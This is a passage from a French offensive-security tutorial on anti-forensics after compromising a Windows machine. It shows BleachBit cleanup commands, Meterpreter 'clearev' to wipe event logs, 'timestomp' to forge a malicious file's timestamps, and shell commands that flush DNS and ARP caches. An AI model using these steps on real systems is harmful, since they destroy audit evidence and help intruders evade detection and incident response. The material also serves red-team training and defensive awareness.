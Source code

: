 #### **BleachBit (open source)**
```cmd
# Installation et utilisation
bleachbit -c windows.logs
bleachbit -c system.tmp
bleachbit -c windows.run
```

---

## 🎭 3. Partie Meterpreter Windows

### **📋 Modules Meterpreter de nettoyage**

#### **🧹 clearev - Nettoyage Event Logs**
```bash
# Dans session Meterpreter Windows
meterpreter > clearev

# Explication :
# - Vide les logs System, Security, Application
# - Équivalent à wevtutil cl pour les 3 logs principaux
# - Rapide mais limité aux logs standards
# - Peut laisser des traces dans d'autres logs spécialisés
```

#### **🗑️ timestomp - Manipulation timestamps**
```bash
# Afficher les timestamps actuels d'un fichier
meterpreter > timestomp C:\\file.txt -v

# Modifier tous les timestamps 
meterpreter > timestomp C:\\file.txt -m "01/01/2020 12:00:00"

# Copier les timestamps d'un autre fichier
meterpreter > timestomp C:\\malicious.exe -f C:\\legitimate.exe

# Explication :
# - Modifie Created, Modified, Accessed timestamps
# - Utile pour masquer la création de fichiers
# - Peut aider à éviter la détection temporelle
# - Attention : certains logs gardent des traces
```

### **🔧 Commandes Meterpreter réseau**

#### **Nettoyage des connexions**
```bash
# Session Meterpreter
meterpreter > shell

# Dans le shell Windows
C:\> ipconfig /flushdns
C:\> arp -d *  
C:\> nbtstat -R
C:\> netsh interface ip delete arpcache

# Retour Meterpreter
C:\> exit
```
